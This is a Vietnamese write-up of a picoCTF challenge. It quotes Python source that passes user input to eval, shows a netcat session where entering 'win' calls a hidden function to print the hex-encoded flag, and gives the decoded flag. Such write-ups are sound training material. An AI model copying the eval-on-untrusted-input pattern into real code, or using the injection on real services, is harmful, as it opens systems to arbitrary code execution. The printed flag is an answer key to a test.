

### Description 
```
This service can provide you with a random number, but can it do anything else?
Connect to the program with netcat:
$ nc saturn.picoctf.net 61606
The program's source code can be downloaded here.
```
### Solution
- Mở source code lên ta được 1 đoạn mã python, quan sát đoạn mã, thấy rằng nó in ra màn hình bắt người dùng nhập 1 con số 
```
while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
  except Exception as e:
    print(e)
```
- Tuy nhiên hàm eval lại thực thi dữ liệu nhập vào(), có nghĩa nó đang thực thi hàm bên trong chứ không phải là nhập chữ số
- Tiếp tục thấy hàm win() đang đọc dữ liệu file flag.txt

```
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
  
```
- Gọi hàm này và decode byte ta có flag:
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 61606
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d 

```
- 
> picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}